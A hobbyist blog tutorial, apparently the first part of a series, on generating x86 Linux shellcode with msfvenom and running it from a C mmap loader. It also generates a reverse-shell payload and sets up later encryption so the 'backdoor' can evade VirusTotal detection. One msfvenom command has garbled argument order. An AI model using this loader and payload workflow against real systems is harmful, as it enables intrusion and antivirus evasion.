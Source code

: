 ```yaml
---
layout: post
title:  "Writing a Custom Shellcoder Encrypter - First Post by Zero++;" 
---
```


In this blogpost we will write an custom Shellcode Cryptor in go. 

## But what exactly is Shellcode?
Shellcode is a combination of binary instruction that will be executed on cpu.
Shellcode can be used for everything, to spawn a reverse shell, to execute a program, to obtain a file descriptor or whatever.
We 1337-heckers use Shellcode because its independent, minimalistic, easy to hide and obfuscate and also perfect to inject into processes.
Shellcode can be written by Hand which is very difficult and not recommended by me, i would recommend to extract Shellcode from Assembly or any compiled programs.  

## Requirements to follow this Blog
This tutorial is for Linux but the Shellcode encoding works same on any Operating System, only the process of execution is different.
In this tutorial we will use Metasploit's msfvenom to generate the Shellcode, C and mmap (a Linux systemcall) to make the Shellcode executable.
Shellcode itself is not Executable, data has to be in a specific file format like ELF (used by Unix and Linux for binaries, shared libraries etc.) or the more famous one PE (Portable Executable the file format used by windows for .exe and .dll files) to be executable. Thats why we will use C to make our Shellcode executable inside our program. I highly recommend to use gcc (the gnu compiler collection) or clang to compile your C Code. The go toolchain is also required.


## Generating our first Shellcode  
In this blogpost we will use ```/tmp/blog/``` as workspace.
We will generate Unencrypted Shellcode in C format (later we will use the raw format).
The Shellcode we will generate with msfvenom will execute the "ls" program.
The -b option is for avoiding bytes, in Shellcoding on **x86** we always have to avoid 
NULL-BYTES because it will make our Shellcode stop working (i will not go into depth here).
With specifying ``` -f c ``` we use the C format, it will output a C-bytearray which is just a normal array and can easily just get copied and pasted.  

```bash
# create and navigate to workspace 
$ sudo su
$ mkdir /tmp/blog
$ cd /tmp/blog
# generate and show Shellcode 
$ msfvenom -p linux/x86/exec CMD="ls" -f -b "\x00" c -o raw.txt 
$ cat raw.txt

```
# Executing the Shellcode in C
Now copy the output of ```cat raw.txt``` into the C code down below here and replace your output with the "bytes" array", the has to be renamed to "bytes".
After its done it should look like this.

```c
#include <stdio.h>    /* standard input/output */
#include <string.h>   /* used for memcpy */
#include <sys/mman.h> /* header for mmap syscall and flags */

unsigned char bytes[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73"
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00"
"\x00\x6c\x73\x00\x57\x53\x89\xe1\xcd\x80";

int main() {
	/* allocate a memory map */
	void* region = mmap(NULL, 

			sizeof(bytes),
			PROT_WRITE | PROT_EXEC,
			MAP_ANONYMOUS | MAP_PRIVATE,
			-1,
			0);
	/* check for error */
	if(region == MAP_FAILED) {
		perror("mmap");
		return 1;
	}
	
	/* copy shellcode into allocated memory page*/
	memcpy(region, bytes, sizeof(bytes));
	
	/* debug message */
	printf("executing %d bytes shellcode using mmap system call\n", sizeof(bytes));

	/* executing the shellcode via function pointer */
	((int(*)())region)();
	
	/* deallocate the memory */
	munmap(region, sizeof(bytes));
	return 0;
}
```

## Notes and Compiling the Program
This blog is not a C course you already should be familiar with the C language.
I will compile the program with the following command 
```gcc -m32 file.c -o runme && ./runme```
The -m32 option stands basically for 32 bit make sure you have gcc-multilib installed to be able to use the 32-bit headers. After Compiling and 
executing the program we should get following output:
```bash
executing 39 bytes shellcode using mmap system call
file.c	raw.txt  runme
```
as we see the c code and the Shellcode execute "ls", thats why it listed the files down below there.

## Generating Reverse-Shell-Shellcode with msfvenom
Now we will generate Shellcode which will spawn a Reverse-Shell.
To run the Shellcode you have todo the same as before, just copy the output, paste, rename the array, compile and run.
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=8089 -b "\x00" -f c -o raw.txt 
```
For some reason msfvenom used shikata_ga_nai, but i didnt specify to use it which was really suprising for me. If we now upload the backdoor to VirusTotal it will be detected as we see here.

![VirusTotal Screenshot](https://github.com/calloczero/calloczero.github.io/blob/main/_images/crop.png?raw=true)



















